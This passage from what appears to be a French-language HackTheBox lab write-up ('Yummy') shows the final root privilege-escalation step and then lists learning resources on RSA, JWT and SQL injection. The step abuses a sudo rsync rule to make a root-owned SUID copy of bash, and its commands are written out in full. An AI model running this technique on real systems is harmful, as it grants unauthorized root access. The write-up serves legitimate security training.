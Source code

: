 ## Escalade de privilèges (Shell en tant que root)

![shell as dev](/images/HTB-Yummy/dev_shell.png)

Nous pouvons copier un binaire, lui ajouter le bit SUID et changer son propriétaire en `root` afin d'escalader nos privilèges et d'obtenir un shell root.

```
cd /home/dev/ 

cp /bin/bash app-production/bash  

chmod u+s app-production/bash  

sudo /usr/bin/rsync -a --exclude=.hg /home/dev/app-production/* --chown root:root /opt/app/  

/opt/app/bash -p  
```

![root flag](/images/HTB-Yummy/root_flag.png)

## Ressources additionnelles

J'espère que cet article vous a été utile et je vous remercie d'avoir pris le temps de le lire !

Voici quelques ressources pour en apprendre davantage sur les concepts de cette box:
* [Public Key Cryptography Basics](https://tryhackme.com/room/publickeycrypto) sur TryHackme.
* [Breaking RSA](https://tryhackme.com/room/breakrsa) sur TryHackme.
* [JWT Security](https://tryhackme.com/room/jwtsecurity) sur TryHackme.
* [JWT Attacks](https://portswigger.net/web-security/jwt) sur PortSwigger Academy.
* [SQL Injection Fundamentals](https://academy.hackthebox.com/module/details/33) et [SQLMap Essentials](https://academy.hackthebox.com/module/details/58) sur HackTheBox Academy.
